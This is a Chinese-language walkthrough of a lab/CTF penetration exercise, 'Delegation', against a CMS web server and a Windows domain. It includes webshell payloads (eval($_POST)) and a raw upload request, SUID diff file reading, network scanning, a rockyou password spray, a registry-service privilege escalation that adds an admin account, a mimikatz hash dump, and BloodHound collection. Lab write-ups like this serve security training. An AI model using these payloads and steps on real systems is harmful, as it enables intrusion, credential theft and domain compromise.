# 春秋云境-Delegation

‍

‍

## easycms

>  http://39.100.182.33/robots.txt 泄露后台地址 /admin
>
> 测试弱口令123456 进入后台

```py
http://39.100.182.33/
```


‍

- 方法1

```py
/index.php?admin_dir=admin&site=default&case=language&act=add&lang_choice=system_custom.php&id=1#index_connent
```



分别添加两次

```py
test1  test2  test3);

xxx ,xxx, ,eval($_POST['6']);/*
```

然后访问

```py
/lang/cn/system_custom.php
```



- 方法2， 上传 木马

```py
POST /index.php?case=template&act=save&admin_dir=admin&site=default HTTP/1.1
Host: 39.99.139.78
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ffja15btsfagcfe6a5v62fjlsp; login_username=admin; login_password=a14cdfc627cef32c707a7988e70c1313
x-forward-for: 127.0.0.1
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

sid=#data_d_.._d_.._d_.._d_2.php&slen=693&scontent=<?=eval($_POST["1"]);?>
```

‍

```py
 find / -perm -u=s -type f 2>/dev/null
/usr/bin/stapbpf
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/staprun
/usr/bin/at
/usr/bin/diff
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```

- diff 命令 任意文件读取

## flag01

```py
www-data@localhost:/home/flag$ ls -alh
total 12K
drwxr-xr-x 2 root root 4.0K Jul 26 21:36 .
drwxr-xr-x 3 root root 4.0K Jun 22  2022 ..
-r-------- 1 root root  798 Jul 26 21:36 flag01.txt
www-data@localhost:/home/flag$ diff --line-format=%L /dev/null flag01.txt
  ____  U _____ u  _     U _____ u   ____      _       _____             U  ___ u  _   _     
 |  _"\ \| ___"|/ |"|    \| ___"|/U /"___|uU  /"\  u  |_ " _|     ___     \/"_ \/ | \ |"|    
/| | | | |  _|" U | | u   |  _|"  \| |  _ / \/ _ \/     | |      |_"_|    | | | |<|  \| |>   
U| |_| |\| |___  \| |/__  | |___   | |_| |  / ___ \    /| |\      | | .-,_| |_| |U| |\  |u   
 |____/ u|_____|  |_____| |_____|   \____| /_/   \_\  u |_|U    U/| |\u\_)-\___/  |_| \_|    
  |||_   <<   >>  //  \\  <<   >>   _)(|_   \\    >>  _// \\_.-,_|___|_,-.  \\    ||   \\,-. 
 (__)_) (__) (__)(_")("_)(__) (__) (__)__) (__)  (__)(__) (__)\_)-' '-(_/  (__)   (_")  (_/  

flag01: flag{eaa21672-0aca-4c62-bed8-9ce7342e6f05}

Great job!!!!!!

Here is the hint: WIN19\Adrian

I'll do whatever I can to rock you...
```

给到提示 貌似是爆破密码

‍

## 172.22.4.36-fscan

‍

```py
www-data@localhost:/tmp$ ./fscan -h 172.22.4.36/24 -nobr -nopoc
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan 2.2.0 (bf036fd 2026-07-10T05:57:56Z)

[*] 服务插件: rsync, neo4j, activemq, telnet, findnet ... 等36个
[*] 切换到ping命令模式
[*] 172.22.4.7 存活 (协议: ICMP)
[*] 172.22.4.19 存活 (协议: ICMP)
[*] 172.22.4.36 存活 (协议: ICMP)
[*] 172.22.4.45 存活 (协议: ICMP)
[*] ICMP响应率过低(1.6%)，启用TCP补充探测(250个主机)
[*] 参数自适应: Timeout=1000ms, ModuleThread=30, Retry=1, ICMPRate=0.50, PocNum=30
[*] 172.22.4.36:21                 ftp      [Product:vsftpd ||Version:3.0.3] Banner:(220 (vsFTPd 3.0.3))
[*] 172.22.4.36:3306               mysql    [Product:Genetec Security Center] Banner:([ 8.0.29-0ubuntu0.20.04.3 n)F=} )j M*,N@6/ Vri' caching_sha2_password)
[+] MySQL 172.22.4.36:3306 MySQL 8.0.29-0ubuntu0.20.04.3
[+] FTP 172.22.4.36:21 FTP
[*] 172.22.4.36:22                 ssh      [Product:OpenSSH ||Version:8.2p1 Ubuntu 4ubuntu0.5] Banner:(SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5)
[+] SSH服务识别成功: 172.22.4.36:22 - SSH 2.0 (OpenSSH_8.2p1 Ubuntu-4ubuntu0.5)
[*] 172.22.4.7:3269               
[+] LDAP 172.22.4.7:3269 LDAP
[*] 172.22.4.7:636                
[+] LDAP 172.22.4.7:636 LDAP
[*] 172.22.4.7:389                 ldap     [Product:Microsoft Windows Active Directory LDAP] Banner:(0 Y d P 0 H0 & currentTime1 20260726140245.0Z0 U subschemaSubentry1 < :CN=Aggreg...)
[+] LDAP 172.22.4.7:389 LDAP
[*] http://172.22.4.19:5985        http     [Product:Open Lighting Architecture daemon] Banner:(HTTP/1.1 404 Not Found Content-Type: text/html; charset=us-ascii Server: Microso...)
[*] http://172.22.4.19:139         http     [Product:Open Lighting Architecture daemon]
[-] 插件扫描错误 172.22.4.19:139 - 读取SMB Session Setup响应失败: EOF
[-] 插件扫描错误 172.22.4.19:139 - SMB协议探测失败: 读取SMBv2协商响应失败: 消息长度过大: 2197815297
[*] http://172.22.4.45:139         http     [Product:Open Lighting Architecture daemon]
[*] http://172.22.4.7:139          http     [Product:Open Lighting Architecture daemon]
[*] http://172.22.4.45:515         http     [Product:Open Lighting Architecture daemon]
[*] 172.22.4.7:445                 microsoft-ds [Product:Microsoft Windows SMB2] Banner:(SMB@ A D c N G >o Os x `v + l0j <0: + 7 * H * H * H + 7 *0( & $not_defined_in_RF...)
[*] 172.22.4.7:3268                ldap     [Product:Microsoft Windows Active Directory LDAP] Banner:(0 Y d P 0 H0 & currentTime1 20260726140245.0Z0 U subschemaSubentry1 < :CN=Aggreg...)
[-] 插件扫描错误 172.22.4.7:139 - 读取SMB Session Setup响应失败: EOF
[+] LDAP 172.22.4.7:3268 LDAP
[+] SMBInfo 172.22.4.7:445 [Windows 10 (Build 14393)] DC01 SMBv1
[-] 插件扫描错误 172.22.4.45:139 - 读取SMB Session Setup响应失败: EOF
[-] 插件扫描错误 172.22.4.7:445 - 发送树连接请求错误: write tcp 172.22.4.36:38340->172.22.4.7:445: write: connection reset by peer
[*] https://172.22.4.45:3389       ssl      Banner:(K M jf Z K ] ;} ) ; z0 + 4 A )j b DT / 0 0 A - e B Njg0 * H 0 1 0 U WIN19.xiaora...)
[*] https://172.22.4.7:3389        ssl      Banner:(W M jf F X4X Z b D \ (D @S? H _ n # >P) 9 0 0 -{d C E $b 7 0 * H 0 1 0 U DC01.xi...)
[-] 插件扫描错误 172.22.4.19:139 - Get "http://172.22.4.19:139": net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x83\x00\x00\x01\x8f"
[*] https://172.22.4.19:3389       ssl      Banner:(c M jf R ysO cgq + - R F L = f J |o k 7f 9 0 0 3i E 7 60 * H 0"1 0 U FILESERVER....)
[-] 插件扫描错误 172.22.4.45:139 - SMB协议探测失败: 读取SMBv2协商响应失败: 消息长度过大: 2197815297
[*] 172.22.4.19:445                microsoft-ds [Product:Microsoft Windows SMB2] Banner:(SMB@ A U {V EN M Mk \o 2 x `v + l0j <0: + 7 * H * H * H + 7 *0( & $not_defined_i...)
[-] 插件扫描错误 172.22.4.7:139 - SMB协议探测失败: 读取SMBv2协商响应失败: 消息长度过大: 2197815297
[*] http://172.22.4.19:5985        code:404 len:315   title:Not Found            server:Microsoft-HTTPAPI/2.0
[-] 插件扫描错误 172.22.4.19:445 - SMB会话被拒绝
[+] SMBInfo 172.22.4.19:445 [Windows 10 (Build 14393)] FILESERVER SMBv1
[-] 插件扫描错误 172.22.4.45:515 - Get "http://172.22.4.45:515": net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x01"
[-] 插件扫描错误 172.22.4.7:139 - Get "http://172.22.4.7:139": net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x83\x00\x00\x01\x8f"
[-] 插件扫描错误 172.22.4.45:139 - Get "http://172.22.4.45:139": net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x83\x00\x00\x01\x8f"
[-] 插件扫描错误 172.22.4.7:3389 - Get "https://172.22.4.7:3389": remote error: tls: internal error
[*] 172.22.4.7:88                  spark    [Product:Apache Spark]
[+] RDP 172.22.4.7:3389 [OS:Windows 10, Version 1607/Windows Server 2016, Version 1607, Build:Windows 10.0.14393, Hostname:DC01, DNSDomain:xiaorang.lab, FQDN:DC01.xiaorang.lab, NetBIOSDomain:XIAORANG]
[+] RDP 172.22.4.7:3389 RDP (Windows 10, Version 1607/Windows Server 2016, Version 1607, DC01)
[-] 插件扫描错误 172.22.4.19:3389 - Get "https://172.22.4.19:3389": remote error: tls: internal error
[+] RDP 172.22.4.19:3389 [OS:Windows 10, Version 1607/Windows Server 2016, Version 1607, Build:Windows 10.0.14393, Hostname:FILESERVER, DNSDomain:xiaorang.lab, FQDN:FILESERVER.xiaorang.lab, NetBIOSDomain:XIAORANG]
[+] RDP 172.22.4.19:3389 RDP (Windows 10, Version 1607/Windows Server 2016, Version 1607, FILESERVER)
[-] 插件扫描错误 172.22.4.45:3389 - Get "https://172.22.4.45:3389": remote error: tls: internal error
[+] RDP 172.22.4.45:3389 [OS:Windows Server 2019, Version 1809/Windows 10, Version 1809, Build:Windows 10.0.17763, Hostname:WIN19, DNSDomain:xiaorang.lab, FQDN:WIN19.xiaorang.lab, NetBIOSDomain:XIAORANG]
[+] RDP 172.22.4.45:3389 RDP (Windows Server 2019, Version 1809/Windows 10, Version 1809, WIN19)
[*] http://172.22.4.45             http     [Product:Open Lighting Architecture daemon] Banner:(HTTP/1.1 200 OK Content-Type: text/html Last-Modified: Wed, 22 Jun 2022 16:55:17...)
[+] http://172.22.4.45             code:200 len:703   title:IIS Windows Server   server:Microsoft-IIS/10.0 [iis]
[*] http://172.22.4.36             http     [Product:Open Lighting Architecture daemon] Banner:(HTTP/1.1 200 OK Date: Sun, 26 Jul 2026 14:02:46 GMT Server: Apache/2.4.41 (Ubunt...)
[*] 172.22.4.45:445                microsoft-ds [Product:Microsoft Windows SMB2] Banner:(SMB@ A ~r / J - 80# L| p x `v + l0j <0: + 7 * H * H * H + 7 *0( & $not_defined_i...)
[-] 插件扫描错误 172.22.4.45:445 - 目标可能不支持SMBv1
[+] SMBInfo 172.22.4.45:445 [Windows 10 (Build 17763)] WIN19 SMBv2
[+] http://172.22.4.36             code:200 len:68112 title:中文网页标题               server:Apache/2.4.41 (Ubuntu) [apache-http cmseasy apache/2.4.41]
[*] 172.22.4.19:135                msrpc    [Product:Microsoft Windows RPC] Banner:(@)
[+] NetInfo 172.22.4.19:135 [FILESERVER]
[+] NetInfo 172.22.4.19:135   -> 172.22.4.19
[*] 172.22.4.45:135                msrpc    [Product:Microsoft Windows RPC] Banner:(@)
[+] NetInfo 172.22.4.45:135 [WIN19]
[+] NetInfo 172.22.4.45:135   -> 172.22.4.45
[*] 172.22.4.7:135                 msrpc    [Product:Microsoft Windows RPC] Banner:(@)
[+] NetInfo 172.22.4.7:135 [DC01]
[+] NetInfo 172.22.4.7:135   -> 172.22.4.7
[*] 172.22.4.7:53                  domain   [Product:Simple DNS Plus] Banner:(version bind)
端口扫描中（900线程） ● 100.0% [==============================] (532/532) 50/s TCP:104/1555                                                                                                    
[完成] 扫描完成: 532/532 (耗时: 10.7s)
[*] 存活主机数: 4
[*] 扫描完成，发现 25 个开放端口
[-] 资源耗尽错误 2 次，建议降低线程数(-t)或增加ulimit
[*] 扫描任务完成，耗时 15.24s，已扫描 58 个目标
```

## 内网1主机信息

```py
172.22.4.7  DC01.xiaorang.lab xiaorang.lab
172.22.4.19 FILESERVER.xiaorang.lab
172.22.4.45  WIN19.xiaorang.lab
```

写入hosts

‍

‍

## WIN19-爆破密码

```py
crackmapexec smb 172.22.4.45 -u Adrian -p /mnt/downloads/kali_tools/SecLists-master/rockyou.txt  -d WIN19
```

要改密码



```py
WIN19\Adrian
babygirl1
```

‍

```py
proxychains4 -q rdesktop  172.22.4.45
```






‍

## **PrivescCheck** 工具

```py
PS C:\Users\Adrian\Desktop\PrivescCheck> cmdkey /list
当前保存的凭据:

    目标: WindowsLive:target=virtualapp/didlogical
    类型: 普通
    用户: 02qpmxtupslfndnu
    本地机器持续时间


C:\Users\Adrian\Desktop\PrivescCheck>whoami /priv
特权信息
----------------------

特权名                        描述           状态
============================= ============== ======
SeChangeNotifyPrivilege       绕过遍历检查   已启用
SeIncreaseWorkingSetPrivilege 增加进程工作集 已禁用

```

‍

功能强大的 PowerShell 脚本，专门用于识别本地提权漏洞和配置问题





生成 html 报告

```py
PS C:\Users\Adrian\Desktop\PrivescCheck> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
PS C:\Users\Adrian\Desktop\PrivescCheck> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_Report -Format HTML"
```



## 修改注册表提权

`SERVICES > 注册表权限`(High,3 个服务) ,对 3 个服务的注册表键有写权限

打开 html 报告 搜索 `Registry Permissions`，对google 更新的



‍

- **当前用户（**​**​`Authenticated Users`​**​ **）对该注册表项拥有**  **​`WriteOwner`​**​ **、**​**​`Delete`​**​ **、**​**​`SetValue`​**​  **等几乎完全的控制权。**
- 服务以 ​**​`LocalSystem`​**（即 SYSTEM）权限运行。
- 服务当前状态为 ​**​`Stopped`​**​，且​**当前用户可以启动它**​（`UserCanStart: True`）。

这意味着：**我们可以修改该服务的**  **​`ImagePath`​**​ **，让它执行我们的恶意命令，然后启动服务，从而以 SYSTEM 权限执行任意代码。** 

```py
Name              : gupdate
ImagePath         : "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /svc
User              : LocalSystem
ModifiablePath    : HKLM\SYSTEM\CurrentControlSet\Services\gupdate
IdentityReference : NT AUTHORITY\Authenticated Users
Permissions       : WriteDAC, Notify, ReadControl, CreateLink, EnumerateSubKeys, WriteOwner, Delete, CreateSubKey, SetValue, QueryValue
Status            : Stopped
UserCanStart      : True
UserCanStop       : True
```

查看当前 ImagePath

```cmd
PS C:\Users\Adrian\Desktop\PrivescCheck> reg query HKLM\SYSTEM\CurrentControlSet\Services\gupdate /v ImagePath

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\gupdate
    ImagePath    REG_EXPAND_SZ    "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /svc
```

- 把 `ImagePath`​ 改成一条命令，例如**添加一个管理员用户**（最稳妥，方便后续登录）

```py
PS C:\Users\Adrian\Desktop\PrivescCheck> reg add HKLM\SYSTEM\CurrentControlSet\Services\gupdate /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c net user hacker P@ssw0rd123! /add && net localgroup administrators hacker /add" /f
操作成功完成。
```

- 启动服务（触发提权）

```py
net start gupdate
```



‍

## flag-02

```py
 ________  _______   ___       _______   ________  ________  _________  ___  ________  ________      
|\   ___ \|\  ___ \ |\  \     |\  ___ \ |\   ____\|\   __  \|\___   ___\\  \|\   __  \|\   ___  \    
\ \  \_|\ \ \   __/|\ \  \    \ \   __/|\ \  \___|\ \  \|\  \|___ \  \_\ \  \ \  \|\  \ \  \\ \  \   
 \ \  \ \\ \ \  \_|/_\ \  \    \ \  \_|/_\ \  \  __\ \   __  \   \ \  \ \ \  \ \  \\\  \ \  \\ \  \  
  \ \  \_\\ \ \  \_|\ \ \  \____\ \  \_|\ \ \  \|\  \ \  \ \  \   \ \  \ \ \  \ \  \\\  \ \  \\ \  \ 
   \ \_______\ \_______\ \_______\ \_______\ \_______\ \__\ \__\   \ \__\ \ \__\ \_______\ \__\\ \__\
    \|_______|\|_______|\|_______|\|_______|\|_______|\|__|\|__|    \|__|  \|__|\|_______|\|__| \|__|


flag02: flag{60bbaf4c-4dcf-4ca0-838a-4905ec77a1b5}

```

‍

## mimikatz

```py
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

拿到 `WIN19$` 主机hash

```py
WIN19$
NTLM 6a3fe5cab076a03ce49456240ca42dcb
```

‍

## BH

```py
proxychains4 -q  bloodhound-ce-python -d xiaorang.lab -u 'WIN19$' --hashes :6a3fe5cab076a03ce49456240ca42dcb -ns 172.22.4.7 -dc DC01.xiaorang.lab --auth-method ntlm -c all --zip --dns-tcp
```



导入 bloodhound

`CoerceToTGT`​ 这条边的含义是:**WIN19 这台机器配置了"无约束委派"(Unconstrained Delegation)** 。它的利用逻辑是——如果你控制了 WIN19,就可以逼(coerce)域控 DC01 来向 WIN19 发起认证,而由于无约束委派,DC01 会把自己的 **TGT** 完整地留在 WIN19 的内存里,你把 `DC01$` 的 TGT 抓下来,就能 DCSync 拉下整个域的哈希 → 拿下域控。

